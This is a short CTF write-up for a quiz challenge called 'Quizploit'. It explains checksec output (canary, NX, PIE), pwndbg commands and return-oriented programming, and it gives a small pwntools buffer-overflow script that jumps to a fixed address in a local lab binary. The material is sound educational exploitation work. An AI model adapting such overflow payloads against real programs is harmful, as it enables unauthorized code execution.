


# 『Quizploit』

- 

# 『The challenge』

So this challenge only try to solve using quiz and answer all of them correctly to get flag

# 『Highlight vulnerability and parts of interesting』

Nothing interesting but only answer the quiz using all source code and file that given to you

# 『Solving Challenge』
> solve by Lylera

[answer](./assets)

All answer from them but you must understand the basic. Some of the command:

- file -> for getting the information of files like is it 32 bit or 64 bit, static or dynamic, etc
- Checksec -> for checking security of the files
- `info function` -> in pwndbg you can see is the file getting stripped (hide that gdb can't decompile) and all some information you need like memory address, the function you need, etc
- `p/x <decimal>` -> for getting the hexadecimal from decimal. You can change back to decimal using `p/d <hexadecimal>`

Ahh i forgot the security:



So i explain this one. If `no canary found` which mean you can do buffer overflow without getting frustation of getting canary block. If `nx enabled`, you can not do spawning shell immediately like ret2shell or ret2lib. So bypassing nx that enabled, you can do ROP chain (return oriented programming). What is it? you can read from this:

- [rop - hacktricks](https://hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html)
- [rop - ironst0ne](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming)

Simple thing is: you can spawn shell using the gadget that already added on compile file like `pop rdi` for example. Afterthat, you can using `system` and combine `shell` tho.

lastly `no pie` which mean pie is turn off. If pie was on, it will make random position memory address. Pie (Position Independent Code) is a security that make memory address random even you have some static memory. If turn off, the memory address will be static  and you can direct that run the code like this:

```py
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

target = p64(0x401176) # this is static binary at file
ret = 0x4011ea # this is gadget for stack allignment

offset = 40

payload = flat(
    'A'*offset,
    p64(ret),
    target
)

p.sendline(payload)

p.interactive()
```

# 『Flag』

the result:


# 『other』

- [chall](./source/)
- [solver.py](./source/solver.py)
- [rop - hacktricks](https://hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html)
- [rop - ironst0ne](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming)
- [pie - ironst0ne](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)